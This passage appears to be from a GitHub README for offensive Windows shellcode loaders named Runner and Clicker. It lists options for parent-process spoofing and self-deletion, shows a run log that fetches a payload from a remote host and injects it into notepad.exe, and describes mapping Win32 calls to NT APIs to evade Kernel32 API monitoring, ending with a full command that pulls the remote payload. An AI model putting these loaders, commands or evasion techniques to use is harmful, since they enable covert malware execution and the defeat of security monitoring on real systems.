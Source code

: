 ```

  -p, --parent   Spoof victim process under a Parent Process ID (This option is ignored for self-injection)

  -k, --kill     Enable self-destruct to auto wipe file from disk.

  -h, --help     Display help screen manual.
  
|--------------
| Payload       : http://192.168.231.128:9090/demon.bin
| Process       : C:\Windows\System32\notepad.exe
| PPID Spoofing : 4160
| Self Destruct : True
|--------------

[>] CreateProcessW()
    |-> Target Process Created!
    |-> PID: 12180

[>] Fetching Payload

[>] VirtualAllocEx()
    |-> Base Address: 0x15A89D70000

[>] WriteProcessMemory()
    |-> Shellcode Injected!

[>] VirtualProtectEx()
    |-> Flipping Memory Protection!

[>] CreateRemoteThread()
    |-> Shellcode Executed!

[>] DeleteProcThreadAttributeList()
    |-> Deleting Process Artifacts!

[>] CloseHandle()
    |-> Closing Process Handle!

[>] CloseHandle()
    |-> Closing Thread Handle!

[>] Runner.exe removed from disk!
```

### Clicker
Clicker is a Proof-of-Concept loader for code injection using NT\*API calls to defeat Kernel32 API Monitoring. All Win32 APIs are mapped to the respective NT level API as follows:
| Win32 API          | NT\*API                                                      |
|--------------------|--------------------------------------------------------------|
| VirtualAllocEx     | NtAllocateVirtualMemory |
| WriteProcessMemory | NtWriteVirtualMemory |
| VirtualProtectEx   | NtProtectVirtualMemory |
| CreateRemoteThread | NtCreateThreadEx |
```
C:\>Clicker.exe -u http://192.168.231.128:9090/demon.bin -t notepad -p 4160 -k

       .:'                                  `:.
      ::'                                    `::
     :: :.                                  .: ::
```